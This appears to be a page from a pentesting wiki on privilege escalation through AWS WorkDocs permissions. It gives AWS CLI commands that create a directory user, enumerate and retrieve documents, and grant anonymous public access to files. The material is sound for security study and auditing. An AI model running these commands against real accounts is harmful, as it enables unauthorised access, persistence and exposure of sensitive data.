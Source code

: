 # AWS - WorkDocs Privesx

## WorkDocs

For more info about WorkDocs check:

{% content-ref url="../aws-services/aws-directory-services-workdocs.md" %}
[aws-directory-services-workdocs.md](../aws-services/aws-directory-services-workdocs.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Create a user inside the Directory indicated, then you will have access to both WorkDocs and AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

The files might contain sensitive information, read them:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

If you don't have access to read something, you can just grant it

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
